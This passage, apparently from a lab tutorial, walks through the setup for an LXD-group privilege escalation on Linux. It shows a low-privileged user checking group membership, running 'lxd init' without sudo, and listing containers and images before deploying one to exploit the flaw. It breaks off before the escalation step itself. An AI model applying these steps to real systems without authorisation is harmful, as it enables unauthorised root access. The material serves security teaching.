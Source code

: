 ```
lowpriv@server:~$ id
uid=1001(lowpriv) gid=1001(lowpriv) groups=1001(lowpriv),998(lxd)
lowpriv@server:~$ groups
lowpriv lxd
lowpriv@server:~$ sudo -l
[sudo] password for lowpriv:
Sorry, user lowpriv may not run sudo on server.
```

OK, let's continue with the LXD getting started guide. The next step is to run `sudo lxd init` to configure the server's defaults for new containers.

Well, let's assume our friend the root user hadn't done this for us. We can't run `sudo` but let's give it a shot anyway.

```
lowpriv@server:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]:
Do you want to configure a new storage pool? (yes/no) [default=yes]: yes
Name of the new storage pool [default=default]:
Name of the storage backend to use (btrfs, ceph, dir, lvm, zfs) [default=zfs]: dir
Would you like to connect to a MAAS server? (yes/no) [default=no]:
Would you like to create a new local network bridge? (yes/no) [default=yes]:
What should the new bridge be called? [default=lxdbr0]:
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: none
Would you like LXD to be available over the network? (yes/no) [default=no]:
Would you like stale cached images to be updated automatically? (yes/no) [default=yes]
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:
```

Note that I went with all of the defaults above, except for the "storage backend" which I set to use `dir` - a simple filesystem directory. Also I set IPv6 to `none` for more readable output.

We did not use `sudo`, but it seems to have worked anyway. You can confirm it completed some root-privileged activities by running `ip addr` and observing the new bridge interface created.

We need a container in order to exploit the vulnerability. On existing systems, it's worthwhile checking what's already been setup as it may save you time downloading a new container image.

```
# First, see if any containers are already deployed
lowpriv@server:~$ lxc ls
+------+-------+------+------+------+-----------+
| NAME | STATE | IPV4 | IPV6 | TYPE | SNAPSHOTS |
+------+-------+------+------+------+-----------+

# Then, see if at least an image is cached ready for new deployments
lowpriv@server:~$ lxc image ls
+-------+-------------+--------+-------------+------+------+-------------+
| ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCH | SIZE | UPLOAD DATE |
+-------+-------------+--------+-------------+------+------+-------------+
```

In the case of our new lab, of course, we don't have anything ready to go. That's fine, it just means this step may take some time and bandwidth. Let's deploy a new Ubuntu LTS 18.04 container. Run the command below and then grab some coffee.
